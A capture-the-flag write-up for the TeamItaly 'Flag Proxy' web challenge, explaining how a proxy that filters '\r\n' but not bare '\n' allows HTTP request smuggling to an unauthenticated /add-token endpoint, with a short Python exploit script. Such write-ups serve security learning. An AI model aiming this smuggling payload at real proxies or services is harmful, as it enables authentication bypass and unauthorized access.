


# TeamItaly CTF 2023 - Flag Proxy

> **Description:** I just added authentication to my flag service (server-back) using a proxy (server-front), but a friend said it's useless...  
> **Site:** [http://flag-proxy.challs.teamitaly.eu](http://flag-proxy.challs.teamitaly.eu)  
> **Author:** @Giotino

The challenge is based on a Node.js web application powered by Express.js. Two endpoints are provided:
- `/flag`: Returns the flag when accessed with a valid token.
- `/add-token`: Adds a token to the backend's allowed list if the correct `auth` secret is provided.

To retrieve the flag, the client must send a request to `/flag` with a query parameter `?token`. This token is then passed as the `Authorization` header to the backend, and it must match one of the values in the `tokens[]` array. New tokens can be added via the `/add-token` endpoint by providing:
- `?token`: the token to add.
- `?auth`: an authentication parameter.

At first glance, the challenge appears secure. However, we see that in the frontend proxy server, `http-client.js`, on [line 55-58](https://github.com/TeamItaly/TeamItalyCTF-2022/blob/master/FlagProxy/src/server-front/http-client.js#L55-L58) it blocks headers containing `\r\n` to prevent HTTP Request Smuggling. However, it fails to sanitize standalone `\n` characters.  
This allows smuggling requests via `\n` line endings in the `Authorization` header. Moreover, the backend's `/add-token` endpoint does not enforce the `auth` parameter check when accessed directly. Thus, smuggling a request to this endpoint allows adding arbitrary tokens without the secret.





It's working! Now, lets smuggle another request to the `/add-token` endpoint with an arbitrary token, to be able to write our token inside `tokens[]` array, successfully bypassing frontend proxy server checks, and later getting the flag:

```python
import requests

url = "http://flag-proxy.challs.teamitaly.eu/flag"
token = "httpsmugglingiscool"
smuggle = f"SMUGGLE\nContent-Length: 0\nConnection: keep-alive\n\nGET /add-token?token={token} HTTP/1.0"

req1 = requests.get(url, params={"token": smuggle})
#print(req1.text)

req2 = requests.get(url, params={'token': token})
print(req2.json()['body'])
```

Flag: `flag{sanity_check}`
